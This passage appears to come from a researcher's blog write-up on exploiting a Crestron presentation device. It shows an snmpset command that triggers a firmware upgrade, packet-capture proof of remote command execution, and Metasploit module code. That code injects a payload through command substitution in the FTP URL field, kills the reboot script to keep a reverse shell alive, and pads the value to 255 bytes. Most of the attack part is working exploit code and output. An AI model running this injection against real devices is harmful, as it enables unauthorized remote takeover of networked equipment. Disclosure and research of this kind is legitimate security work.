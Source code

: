 Now we trigger the upgrade sequence:

{% highlight bash %}
$ snmpset -v2c -c private -m +CRESTRON-WPS-MIB 192.168.100.2 camFWUpgradeFTPActive.0 i 1
CRESTRON-WPS-MIB::camFWUpgradeFTPActive.0 = INTEGER: 1
{% endhighlight %}

And voilà ! Remote command execution via SNMP:

```
13:04:31.599851 IP 192.168.100.2 > 192.168.100.1: ICMP echo request, id 60686
13:04:31.599925 IP 192.168.100.1 > 192.168.100.2: ICMP echo reply, id 60686
13:04:32.601065 IP 192.168.100.2 > 192.168.100.1: ICMP echo request, id 60686
13:04:32.601100 IP 192.168.100.1 > 192.168.100.2: ICMP echo reply, id 60686
13:04:33.604441 IP 192.168.100.2 > 192.168.100.1: ICMP echo request, id 60686
13:04:33.604538 IP 192.168.100.1 > 192.168.100.2: ICMP echo reply, id 60686
```

During the development of a full blown exploit I came upon two issues:

1. The SNMP service expects a really specific format for the FTP URL
2. The reverse shell exits after a few seconds

The expected URL value must be 255 bytes long and starts with a valid URI, while the shell exit is due to this call at the end of **ftpfw.sh**:

{% highlight bash %}
if [ $err1 != 0 ]; then
    echo "[Error]fw: $err1" >> /tmp/ftpget.log
    /etc/reboot.sh
    exit 3
fi
{% endhighlight %}

The fix was fairly simple, here is how it looks like in the Metasploit module:

{% highlight bash %}
# The payload must start with a valid FTP URI otherwise the injection point is not reached
cmd = "ftp://1.1.1.1/$(#{payload.encoded})"
# When the FTP download fails, the script calls /etc/reboot.sh and we loose the callback
# We therefore kill /etc/reboot.sh before it reaches /sbin/reboot with that command and
# keep our reverse shell opened :)
cmd += "$(pkill -f /etc/reboot.sh)"
# the MIB states that camFWUpgradeFTPURL must be 255 bytes long so we pad
cmd += "A" * (255-cmd.length)
{% endhighlight %}
